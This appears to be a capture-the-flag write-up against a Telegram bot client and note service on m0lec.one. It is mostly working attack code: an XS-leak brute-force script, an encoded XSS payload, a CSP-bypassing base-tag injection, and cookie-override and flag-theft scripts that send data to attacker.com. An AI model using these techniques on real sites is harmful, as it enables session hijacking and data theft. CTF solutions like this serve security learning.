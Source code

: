 # Find the telegram bot handle

It's possible to leak the handle of the bot exploiting the `/location` route.

## Script to extract the hadle one character at a time:
```javascript
<script>

name = ''

wins = []

str = '_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
for (var i = 0; i < str.length; i++) {
  c = str.charAt(i)
  console.log('https://telegrambotclient.m0lec.one/locations?search='+name+c)
  r = window.open('https://telegrambotclient.m0lec.one/locations?search='+name +c)
  wins.push(r)
}


setTimeout(() => {
  // Read the number of iframes loaded
    for (var i = 0; i < wins.length; i++) {
        if (wins[i].length>0){
            x = str.charAt(i)
            console.log(x)
            // leak the char
            fetch('https://attacker.com/leak?'+name+x)
        }
        wins[i].close()
    }
    }, 1000);

</script>
```

# XSS in telegram messages

The `/messages` route is vulnerable to xss on the programming language name used for the syntax highlighting feature.

## Payload to send as a telegram message to the bot to exploit the xss:
````
```python id=abc tabindex=1 onfocus=document.write(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,39,104,116,116,112,115,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,101,118,105,108,46,106,115,39,62,60,47,115,99,114,105,112,116,62))  
ciao
```
````
This payload causes the execution of `https://attacker.com/evil.js` when the bot visits `/messages#abc`.



# Self XSS in the note service

When creating a note, the text value is not escaped.

By bypassing the CSP it's possible to obtain a self-xss on the note app domain.

## Payload:
```
<base href="https://attacker.com">
```

By changing the base address the browser will fetch the scripts in the page from the attacker domain.

These scripts are allowed by the CSP nonce.



# Subdomain takeover

From the xss on the telegram client it's possible to override the session cookie for the note subdomain.

In this way it's possible to exploit the self-xss in the note subdomain and fetch the flag in the same origin.

## Script for cookie override

```javascript
w = window.open('http://note.m0lec.one/note?id=1','flag')
newcookie = 'YOUR NOTE SESSION COOKIE'
document.cookie = 'session=' + newcookie + '; domain=.m0lec.one; path=/note'
document.location = 'http://note.m0lec.one:8080/note?id=2' //self-xss
```

## Script on note subdomain

```javascript
w = window.open('','flag')
flag = document.getElementsByTagName('p')[0].innerText
fetch('https://attacker.com/flag?'+flag)
```
